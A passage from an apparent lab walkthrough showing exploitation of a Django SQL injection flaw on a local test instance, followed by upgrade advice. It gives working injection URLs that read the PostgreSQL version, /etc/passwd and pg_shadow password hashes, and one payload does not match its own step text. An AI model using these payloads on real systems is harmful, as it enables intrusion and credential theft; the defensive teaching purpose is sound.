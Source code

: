 
```
http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT version(),NULL,NULL,NULL,NULL,NULL,NULL–-
```

![Django Image 13 version](https://images.ctfassets.net/kvf8rpi09wgk/mRhSzwJqILvRcnzfuzpgt/16835127c8df115c9c7445e5ad81445c/Django_Image_13_version.png)

- Observe that you successfully extracted the version of PostgresSQL, along with some other useful information about the environment.

21. Extract the **`/etc/passwd`** file by replacing **`version()`** with **`pg_read_file(‘/etc/passwd’)`**:

```
http://localhost:4131/trunc/?kind=year%27%20start_datetime))%20OR%201=1;SELECT pg_read_file(‘/etc/passwd’),NULL,NULL,NULL,NULL,NULL,NULL–-
```

![Django Image 14 etc passwd](https://images.ctfassets.net/kvf8rpi09wgk/6r2l73im2Xgv3tOhudZk3p/76e92753c0d1baac4ee5f67a483c4e8d/Django_Image_14_etc_passwd.png)

22. Extract the hashed database password by replacing **`pg_read_file(‘/etc/passwd’)`** with **`passwd`** and adding a **`FROM pg_shadow`** to the end of your SQL statement:

```
http://localhost:4131/trunc/?kind=year%27%20start_datetime))%20OR%201=1;SELECT pg_read_file(‘/etc/passwd’),NULL,NULL,NULL,NULL,NULL,NULL FROM pg_shadow–-
```

![Django Image 15 pg shadow](https://images.ctfassets.net/kvf8rpi09wgk/1hTHYJMGFFINyh5T3vSWDP/a1a7af30c5f7c094f8ea70f9875df1f2/Django_Image_15_pg_shadow.png)

- **Note**: Cracking the password is beyond the scope of this course, but recall you already know the database password from reading the YAML file and also using the **`docker inspect`** command.

Armed with the above SQL injection commands, we can now show the greater impact of this CVE to our developers. It's also great that we can do this without relying solely on using a **`sleep`** command--especially showing you are able to extract the password hash.

#### Vulnerability Mitigation

Patches for the vulnerable versions of Django can be found on the Django project website.

It is recommended to update to Django version 3.2.14 or higher, or 4.0.6 or higher.

1. To upgrade Django from the terminal, type:

```
pip3 install django -U 
```

- **Note**: You can also use **`--upgrade`** instead of **`-U`**.

2. Alternatively, you can specify the version of Django by entering:

```
pip3 install django==4.0.6
```

#### Summary
